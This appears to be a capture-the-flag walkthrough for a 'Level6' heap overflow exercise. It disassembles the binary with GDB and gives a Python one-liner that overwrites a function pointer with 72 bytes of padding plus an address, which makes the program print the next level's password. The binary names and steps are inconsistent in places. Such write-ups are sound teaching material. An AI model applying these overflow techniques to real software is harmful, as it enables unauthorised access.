 # Level6 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the program functions**:
   Using the command `disas`, we found that the program uses several functions :
   - m : printing ("Nope")
   - n : printing password directly
   - main : alloue 64 bytes + 4 bytes, the strcpy function copy argv[1] and if the string is longer than 64 characters, it can overwrite the content of the function pointer.
   
   - We'll have to overwrite the function pointer to point into n instead of m.

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level7 
   ```
    The program segfault without any arg but with 

    ```bash
    ./level7 blablabla
    Nope
    ```

2. **Trying to overflow the RET value**

    the idea here is to overwrite the function pointer to point to n function, so we'll have to overflow it in the return address of n. 

    64 + 8 bytes from malloc

    ```bash
    ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
    ```

## Moving to level7

1. **Swith User to level6**:
    Run ```su level7```

2. **Authenticate with the Password**:
    We used the password we found.